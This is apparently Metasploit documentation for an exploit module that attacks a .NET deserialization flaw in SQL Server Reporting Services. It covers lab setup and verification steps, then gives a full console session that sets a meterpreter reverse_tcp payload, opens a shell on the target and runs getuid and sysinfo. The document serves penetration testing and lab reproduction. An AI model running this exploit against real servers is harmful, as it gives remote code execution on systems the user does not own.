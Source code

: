 ## Vulnerable Application

This module exploits a .NET serialization vulnerability in the SQL Server
Reporting Services web application. The vulnerability exists within the a class
that will load serialized data submitted in a POST request. When processed this
data can lead to code execution within the context of the application which by
default is a service account.

An account is necessary in order to leverage this vulnerability. The request is
submitted using NTLM basic authentication. This account must be assigned at
least the "Browser" role on the site. This is the lowest privilege available and
simply allows the user to view folders, reports and subscribe to reports. To
authenticate as a domain user, set the `DOMAIN` option.

### Service Installation And Setup

Setting up a vulnerable environment for testing is best done by using a SQL
Server 2016 installation ISO which includes an offline installer for SSRS. Later
versions of SQL Server installation ISOs link to an online installer which will
install the patched version automatically.

When installing SQL Server 2016:

  1. Select "New SQL Server stand-alone installation or add features to an
    existing installation"
  1. Later in the "Feature Selection" section, select "Reporting Services -
    Native" under the "Instance Features" group
  1. Proceed with the remainder of the installation per usual

After the server has been installed, it must be configured using the "Reporting
Services Configuration Manager" application. Ensure a database is selected and
created, that both the Web Services URL and Web Portal URLs are activated.
Finally, from the web interface, add accounts and privileges as desired.
Individual accounts can have privileges added by selecting "Manage Folder" and
adding them from this dashboard. **Do not use privileges dashboard available
from "Site Settings" to add the necessary privileges.**

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/windows/http/ssrs_navcorrector_viewstate`
  4. Set the `RHOSTS`, `USERNAME` and `PASSWORD` options
  5. Do: `run`
  6. You should get a shell.

## Scenarios

### SSRS 2016 on Server 2012 x64

    msf > use exploit/windows/http/ssrs_navcorrector_viewstate 
    msf exploit(windows/http/ssrs_navcorrector_viewstate) > set RHOSTS 192.168.159.141
    RHOSTS => 192.168.159.141
    msf exploit(windows/http/ssrs_navcorrector_viewstate) > set USERNAME jdoe
    USERNAME => jdoe
    msf exploit(windows/http/ssrs_navcorrector_viewstate) > set DOMAIN msflab.local
    DOMAIN => msflab.local
    msf exploit(windows/http/ssrs_navcorrector_viewstate) > set PASSWORD Password1
    PASSWORD => Password1
    msf exploit(windows/http/ssrs_navcorrector_viewstate) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    PAYLOAD => windows/x64/meterpreter/reverse_tcp
    msf exploit(windows/http/ssrs_navcorrector_viewstate) > set LHOST 192.168.159.128 
    LHOST => 192.168.159.128
    msf exploit(windows/http/ssrs_navcorrector_viewstate) > check
    [*] 192.168.159.141:80 - The service is running, but could not be validated.
    msf exploit(windows/http/ssrs_navcorrector_viewstate) > exploit
    
    [*] Started reverse TCP handler on 192.168.159.128:4444 
    [*] Command Stager progress -  24.99% done (2999/12002 bytes)
    [*] Command Stager progress -  49.98% done (5998/12002 bytes)
    [*] Command Stager progress -  74.96% done (8997/12002 bytes)
    [*] Sending stage (206403 bytes) to 192.168.159.141
    [*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.141:50376) at 2020-03-06 16:19:24 -0500
    [*] Command Stager progress -  99.83% done (11982/12002 bytes)
    [*] Command Stager progress - 100.00% done (12002/12002 bytes)
    
    meterpreter > getuid
    Server username: NT Service\ReportServer
    meterpreter > sysinfo
    Computer        : SERVER2012
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : MSFLAB
    Logged On Users : 10
    Meterpreter     : x64/windows
    meterpreter >
